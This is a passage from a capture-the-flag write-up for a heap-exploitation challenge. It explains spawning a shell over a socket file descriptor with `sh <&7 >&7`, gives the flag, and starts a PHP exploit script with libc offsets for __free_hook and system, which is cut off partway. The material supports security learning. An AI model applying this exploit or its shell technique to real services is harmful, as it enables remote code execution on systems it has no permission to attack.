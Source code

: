 This exploit uses `sh <&7 >&7` to spawn a shell on the 7th file descriptor
(which is used for the 4th thread). This results in `sh` and the application
fighting to get the input. Commands get executed half of the time on average.
This is enough to get the flag.

**Flag**: `flag{Actually_this_is_a_final_project_of_3_course_parallelprogramming_networkprogramming_softwaresecurity}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/hexdump.php";
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const MAIN_ARENA = 0x001E4C40;
const FREE_HOOK  = 0x001E75A8;
const SYSTEM     = 0x00052fd0;

define("PORT", 0  | ($argv[1] ?? 54321));
define("HOST", "" . ($argv[2] ?? "127.0.0.1"));

function motd(Tube $t)
{
	$t->expectLine(" ______     ______     __  __    ");
	$t->expectLine("/\  ___\   /\  ___\   /\ \_\ \   ");
	$t->expectLine("\ \ \____  \ \___  \  \ \____ \  ");
	$t->expectLine(" \ \_____\  \/\_____\  \/\_____\ ");
	$t->expectLine("  \/_____/   \/_____/   \/_____/ ");
	$t->expectLine("                                 ");
}

function connect(string $host, int $port) : Tube
{
	$t = new Socket(HOST, PORT);
	motd($t);
	return $t;
}

function menu(Tube $t)
{
	$t->expectLine("------ House Of CSY ------");
	$t->expectLine("| 1. Create a room       |");
	$t->expectLine("| 2. Show a room         |");
	$t->expectLine("| 3. Enter a room        |");
	$t->expectLine("| 4. Destruct a room     |");
	$t->expectLine("--------------------------");
	$t->expect("Choose> ");
}

function room_new(Tube $t) : Closure
{
	menu($t);
	$t->write("1\n");

	return function(string $name) use($t) : int {
		$t->expect("Room name: ");
		$t->write($name);

		$t->expect("Room created!!! Room id: ");
		return 0 | $t->readLine();
```